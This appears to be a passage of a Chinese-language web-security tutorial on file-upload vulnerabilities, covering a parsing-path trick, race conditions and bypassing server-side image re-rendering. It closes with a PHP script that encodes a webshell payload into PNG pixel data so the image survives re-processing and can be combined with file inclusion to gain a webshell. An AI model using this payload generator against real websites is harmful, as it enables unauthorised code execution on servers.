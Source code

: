 ### 漏洞形式

www.xxxxx.com/UploadFiles/image/1.jpg/1.php

# 条件竞争漏洞

结合文件包含利用

# 二次渲染漏洞

## 二次渲染原理

在我们上传文件后，网站会对图片进行二次处理（格式、尺寸要求等），服务器会把里面的内容进行替换更新，处理完成后，根据我们原有的图片生成一个新的图片并放到网站对应的标签进行显示。

## 绕过

1、配合文件包含漏洞： 将一句话木马插入到网站二次处理后的图片中，也就是把一句话插入图片在二次渲染后会保留的那部分数据里，确保不会在二次处理时删除掉。这样二次渲染后的图片中就存在了一句话，在配合文件包含漏洞获取webshell。

2、可以配合条件竞争： 这里二次渲染的逻辑存在漏洞，先将文件上传，之后再判断，符合就保存，不符合删除，可利用条件竞争来进行爆破上传

## 如何判断图片是否进行了二次处理

对比要上传图片与上传后的图片大小，使用16进制编辑器打开图片查看上传后保留了哪些数据，查看那些数据被改变。

## png二次渲染

利用下方代码进行png二次渲染绕过

```php
<?php
  $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
             0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
             0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
             0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
             0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
             0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
             0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
             0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
  $r = $p[$y];
  $g = $p[$y+1];
  $b = $p[$y+2];
  $color = imagecolorallocate($img, $r, $g, $b);
  imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'1.png'); #保存在本地的图片马
?>
```
